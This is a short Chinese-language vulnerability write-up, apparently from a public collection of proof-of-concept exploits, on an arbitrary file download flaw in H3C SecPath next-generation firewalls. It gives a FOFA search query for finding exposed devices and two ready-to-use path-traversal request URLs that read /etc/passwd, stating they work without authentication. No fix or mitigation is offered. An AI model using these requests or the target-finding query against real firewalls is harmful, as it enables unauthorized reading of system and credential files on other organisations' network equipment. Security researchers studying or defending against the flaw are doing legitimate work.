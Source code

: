 # H3C SecPath下一代防火墙 任意文件下载漏洞

## 漏洞描述

H3C SecPath 下一代防火墙  存在功能点导致任意文件下载漏洞，攻击者通过漏洞可以获取敏感信息

## 漏洞影响

```
H3C SecPath
```

## FOFA

```
title="Web user login"
```

## 漏洞复现

登录页面如下

![](./images/202202110914717.png)

存在漏洞点的功能有两个

![](./images/202202110914728.png)

点击下载抓包更改请求

![](./images/202202110914422.png)

并且在未身份验证的情况中，也可以请求下载敏感文件

验证POC

```plain
/webui/?g=sys_dia_data_check&file_name=../../etc/passwd

/webui/?
g=sys_capture_file_download&name=../../../../../../../../etc/passwd
```